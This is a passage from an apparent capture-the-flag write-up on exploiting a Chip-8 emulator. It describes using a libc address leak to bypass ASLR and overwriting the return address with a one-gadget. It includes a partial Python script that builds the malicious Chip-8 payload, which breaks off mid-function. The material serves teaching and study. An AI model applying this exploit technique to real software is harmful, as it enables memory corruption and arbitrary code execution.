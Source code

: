 This points inside a libc function, allowing ASLR to be thwarted. Subtracting the offset from `$rbp` of the beginning of emulated process memory, we can get the value that `I` must be to read the ASLR leak: 0x18f8.

## Pwning

So we need to make an evil Chip-8 binary which will:

1. Read the ASLR leak from the stack
2. Add the distance to the one-gadget
3. Write the result to the return address

To accomplish this, I wrote a script for generating redundant parts of the payload, essentially using Python functions as assembler macros.

```
# Set I to the value of off
def seek_I(off):
    assert off > 0xfff
    assert off < 2 ** 16
    p = ''
    # Set I to off
    p += '\xAf\xff' # LD I, 0xfff
    reg_I = 0xfff
    while reg_I < off:
        if off - reg_I < 0xff:
            p += '\x6a' + chr(off - reg_I) # LD Va, (off - reg_I)
            reg_I += off - reg_I
        else:
            p += '\x6a\xff' # LD Va, 0xff
            reg_I += 0xff
        p += '\xfa\x1e' # ADD I, Va
    return p

# Read the 64 bit value at off into V0-V7
def read64(off):
    p = ''
    p += seek_I(off)
    p += '\xf7\x65' # LD V7, [I]
    return p

# Write the 64 bit value in V0-V7 to off
def write64(off):
    p = ''
    p += seek_I(off)
    p += '\xf7\x55' # LD [I], V7
    return p

# Add the immediate val to the 64 bit value stored in V0-V7
def add64i(val):
    p = ''
    p += '\x68' + p64(val)[0] # LD V8, p64(val)[0]
    p += '\x80\x84' # ADD V0, V8
    p += '\x89\xf0' # LD V9, Vf
    p += '\x81\x94' # ADD, V1, V9
    p += '\x68' + p64(val)[1] # LD V8, p64(val)[1]
    p += '\x81\x84' # ADD V1, V8
    p += '\x89\xf0' # LD V9, Vf
    p += '\x82\x94' # ADD, V2, V9
    p += '\x68' + p64(val)[2] # LD V8, p64(val)[2]
    p += '\x82\x84' # ADD V2, V8
    p += '\x89\xf0' # LD V9, Vf
    p += '\x83\x94' # ADD, V3, V9
    p += '\x68' + p64(val)[3] # LD V8, p64(val)[3]
    p += '\x83\x84' # ADD V3, V8
```